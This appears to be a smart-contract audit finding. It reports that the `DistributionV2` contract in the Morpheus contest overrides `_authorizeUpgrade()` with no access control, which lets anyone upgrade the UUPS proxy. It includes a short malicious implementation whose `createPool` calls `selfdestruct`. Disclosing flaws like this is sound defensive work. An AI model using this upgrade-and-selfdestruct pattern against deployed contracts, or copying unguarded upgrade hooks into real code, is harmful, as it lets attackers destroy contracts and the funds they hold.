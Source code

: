 ## Vulnerability Details :

`DistributionV2` contract inheriting `UUPSUpgradeable` so overriding `_authorizeUpgrade()` function. But adding no access control to this function can lead to setting implementation contract by anyone since this function is called for authorization in `UUPSUpgradeable`. By setting any malicious contract as implementation attacker can **selfdestruct()** the proxy contract. Since implementation is called using delegatecall from proxy.

### Code Snippet :

[contracts/mock/DistributionV2.sol](https://github.com/Cyfrin/2024-01-Morpheus/blob/main/contracts/mock/DistributionV2.sol#L36)

```solidity
36:  function _authorizeUpgrade(address) internal view override {}
```

Since `DistributionV2` contract is inheriting `UUPSUpgradeable` from openzeppelin we can see in upgrading implementation address `_authorizeUpgrade()` is called.

https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/utils/UUPSUpgradeable.sol#L86C5-L90C1

```solidity
function upgradeToAndCall(address newImplementation, bytes memory data) public payable virtual onlyProxy {
        _authorizeUpgrade(newImplementation);
        _upgradeToAndCallUUPS(newImplementation, data);
    }
```

### Malicious `DistributionV2` implementation contract

```javascript
contract DistributionV2 is UUPSUpgradeable {
    IDistribution.Pool[] public pools;

    function version() external pure returns (uint256) {
        return 2;
    }

    function createPool(IDistribution.Pool calldata pool_) public {
        selfdestruct(address(0));//@audit this code will be implanted here
    }

    function getPeriodReward(uint256 poolId_, uint128 startTime_, uint128 endTime_) public view returns (uint256) {
        IDistribution.Pool storage pool = pools[poolId_];

        return LinearDistributionIntervalDecrease.getPeriodReward(
            pool.initialReward, pool.rewardDecrease, pool.payoutStart,  pool.decreaseInterval, startTime_, endTime_
        );
    }

    function _authorizeUpgrade(address) internal view override {}
}

```
